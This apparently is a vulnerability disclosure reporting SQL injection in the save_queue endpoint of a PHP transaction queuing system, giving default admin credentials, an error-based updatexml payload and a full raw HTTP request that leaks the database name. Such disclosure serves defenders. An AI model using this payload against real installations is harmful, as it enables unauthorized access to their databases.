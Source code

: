 # Dynamic Transaction Queuing System v1.0 by oretnom23 has SQL injection

Vulnerability Discoverer:  Yang Tao, TBLab of Venustech

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14479/dynamic-transaction-queuing-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File:  /queuing/admin/ajax.php?action=save_queue

Vulnerability location: /queuing/admin/ajax.php?action=save_queue, id

dbname =queuing_db

[+] Payload: name=111&transaction_id=4 and updatexml(1,concat(0x7e,(select database()),0x7e),0) // Leak place ---> id

```sql
POST /queuing/admin/ajax.php?action=save_queue HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=t4551shae3529036q2g0j8luub
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 82

name=111&transaction_id=4 and updatexml(1,concat(0x7e,(select database()),0x7e),0)
```

![image](https://user-images.githubusercontent.com/54017627/200096681-1d72fcba-5810-49a4-a5b6-36b832391f81.png)

